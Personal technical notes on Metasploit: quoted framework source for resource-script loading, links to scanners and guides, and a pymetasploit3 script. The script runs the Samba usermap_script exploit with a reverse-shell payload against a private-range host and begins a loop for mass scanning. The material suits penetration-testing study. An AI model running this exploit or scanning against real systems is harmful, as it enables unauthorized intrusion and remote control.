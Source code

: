 ```yaml
---
title: Metasploit scripting and more
created: '2024-03-31T04:25:36.000Z'
modified: '2024-05-30T07:11:24.634Z'
---
```


# Metasploit scripting and more

the way metasploit loads resource script:

```ruby
# file: lib/msf/base/sessions/command_shell.rb
  def execute_file(full_path, args)
    if File.extname(full_path) == '.rb'
      Rex::Script::Shell.new(self, full_path).run(args)
    else
      load_resource(full_path) # usually *.rc files
    end
  end

```

the parsing:

```ruby
# file: lib/rex/ui/text/resource.rb

# -*- coding: binary -*-
require 'erb'

module Rex
module Ui
module Text

module Resource

  # Processes a resource script file for the console.
  #
  # @param path [String] Path to a resource file to run
  # @return [void]
  def load_resource(path)
    if path == '-'
      resource_file = $stdin.read
      path = 'stdin'
    elsif ::File.exist?(path)
      resource_file = ::File.read(path)
    else
      print_error("Cannot find resource script: #{path}")
      return
    end

    # Process ERB directives first
    print_status "Processing #{path} for ERB directives."
    erb = ERB.new(resource_file)
    processed_resource = erb.result(binding)

    lines = processed_resource.each_line.to_a
    bindings = {}
    while lines.length > 0

      line = lines.shift
      break if not line
      line.strip!
      next if line.length == 0
      next if line =~ /^#/

      # Pretty soon, this is going to need an XML parser :)
      # TODO: case matters for the tag and for binding names
      if line =~ /<ruby/
        if line =~ /\s+binding=(?:'(\w+)'|"(\w+)")(>|\s+)/
          bin = ($~[1] || $~[2])
          bindings[bin] = binding unless bindings.has_key? bin
          bin = bindings[bin]
        else
          bin = binding
        end
        buff = ''
        while lines.length > 0
          line = lines.shift
          break if not line
          break if line =~ /<\/ruby>/
          buff << line
        end
        if ! buff.empty?
          print_status("resource (#{path})> Ruby Code (#{buff.length} bytes)")
          begin
            eval(buff, bin)
          rescue ::Interrupt
            raise $!
          rescue ::Exception => e
            print_error("resource (#{path})> Ruby Error: #{e.class} #{e} #{e.backtrace}")
          end
        end
      else
        print_line("resource (#{path})> #{line}")
        run_single(line)
      end
    end
  end

end

end
end
end

```

---

vulnerability scanners:

https://dradis.com/ce/

nessus

nexpose

openvas

---

[metasploit-framework](https://rubygems.org/gems/metasploit-framework) is a ruby gem.

---

https://www.infosecmatter.com/metasploit-module-library/

https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/auxiliary-module

---

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
module_types = ['exploits','auxiliary', "encoders", "nops", "payloads", 'post']

for mt_plural in module_types:
    module_type = mt_plural.rstrip('s')
    for name in all_module_names:
        mod = client.modules.use(module_type, name)
        # get default RPORT
        default_rport = mod.runoptions.get("RPORT", None)
```

